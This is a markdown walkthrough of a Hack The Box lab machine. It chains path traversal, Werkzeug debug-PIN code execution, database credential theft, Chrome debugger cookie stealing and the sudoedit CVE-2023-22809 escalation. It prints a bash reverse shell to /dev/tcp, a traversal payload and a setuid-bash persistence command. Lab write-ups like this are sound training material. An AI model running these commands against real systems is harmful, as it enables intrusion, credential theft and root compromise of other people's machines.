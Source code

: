 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB

---

**Machine Info:**
- **IP**: `10.10.11.203`
- **OS**: Linux 🐧
- **Difficulty**: [Medium](Medium)
- **Exploits Used**:
  - [HTTP](HTTP) File Read Vulnerability via `/download?fn=...`
  - Flask Debug Mode Code Execution via Werkzeug PIN Bypass
  - Database Credential Extraction 🐍
  - Chrome Remote Debugging Cookie Stealing 🥸
  - [Sudoedit](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) via CVE-2023-22809 to escalate to root 🧨
- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (80)

---

[Tools](Tools)
- `nmap` 🛰️
- `feroxbuster` 🦡
- `curl` 🌐
- `Burp Suite` 🐞
- `sshpass` 🧑‍💻
- `mysql` 🐬
- `Chromium DevTools` 🔧
- `nc` 📞
- `Selenium` 🧪
- `pytest` 🔁
- `sudoedit` ✍️

---

### Commands to Solve Box

#### 🧭 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.203
nmap -p 22,80 -sCV 10.10.11.203
feroxbuster -u http://superpass.htb --dont-extract-links
```

#### 🪝 Initial Access (www-data)
- Exploit `/download?fn=../../../../etc/passwd` to confirm file read vuln.
- Leak Flask Debug PIN via [Werkzeug debug PIN generation](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution).
- Use leaked info to generate correct PIN and gain RCE via Flask console.
- Spawn reverse shell via `os.system('bash -c "bash -i >& /dev/tcp/10.10.14.X/443 0>&1"')`.

#### 📂 Escalation to User corum
- Read `/app/config_prod.json` and connect to DB using `mysql`.
- Extract corum’s password from DB and login via `sshpass`.

```bash
mysql -u superpassuser -p'dbpassword' superpass
```

#### 🧪 Shell as edwards
- Tunnel `localhost:5555` and `localhost:41829` using:
```bash
ssh -L 5555:localhost:5555 -L 41829:localhost:41829 corum@superpass.htb
```
- Access [Chrome Debugger](chrome://inspect) and steal cookies for edwards.
- Reuse cookie to extract password, login via `ssh`.

#### 🚨 Root Access
- Exploit [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) using `sudoedit` with `EDITOR='vim -- /app/venv/bin/activate'`.
- Inject:
```bash
cp /bin/bash /tmp/0xdf; chmod +s /tmp/0xdf
```
- Wait for cron/root login, then:
```bash
/tmp/0xdf -p
```

---

### ✅ Actions Learned From This Box
- 🧠 Deep understanding of Flask’s debug mode and Werkzeug PIN generation.
- 🐍 How Python virtual environments interact with `bashrc`.
- 🔎 Abuse of Chrome remote debugging via dev test pipelines.
- ⚠️ The power (and danger) of misconfigured `sudoedit` privileges.
- 🧬 Realistic dev-to-prod test integration flaws, great CI/CD misconfig example.
- 🎯 Tunneling techniques for local-only service access.

---

### References 📚
- 📖 [HackTricks: Flask Debug RCE](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution)
- 📖 [CVE-2023-22809 sudoedit Exploit](https://www.qualys.com/2023/01/30/cve-2023-22809/cve-2023-22809.txt)
- 🛠️ [Werkzeug Source for PIN Gen](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)
- 🧪 [Selenium Chrome Debug Port Abuse](https://security.snyk.io/vuln/SNYK-PYTHON-SELENIUM-3187814)
- 🧠 [0xdf's Full Write-up](https://0xdf.gitlab.io/2023/08/05/htb-agile.html)

---

Let me know when you want the next one prepped like this! 💻🔥